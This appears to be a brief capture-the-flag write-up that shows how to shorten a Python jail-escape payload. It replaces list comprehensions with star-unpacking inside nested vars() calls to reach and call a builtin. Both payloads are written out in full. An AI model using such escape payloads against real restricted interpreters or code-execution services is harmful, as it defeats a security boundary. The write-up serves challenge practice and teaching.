

# Golfing 50 Character

at __Golfing 100 Character__ we already had this payload

```
vars(vars()[[x for x in vars()][6]])[[y for y in vars(vars()[[x for x in vars()][6]])][12]]()
```

but it is still too long


yea, we can see if the payload is still far from 50 character, but we had ultimate solution here. That issssss __asterisk__ (__*__). How can we use it? asterisk can change the use of

```
x for x in
```

things. So, lets try it

```
vars(vars()[[*vars()][6]])[[*vars(vars()[[*vars()][6]])][12]]()
```

u guys can see huh? lets see the character


see, just using __*__, it makes the payload reducing 30 char. But its still far from the maximum payload.



u can see, it work!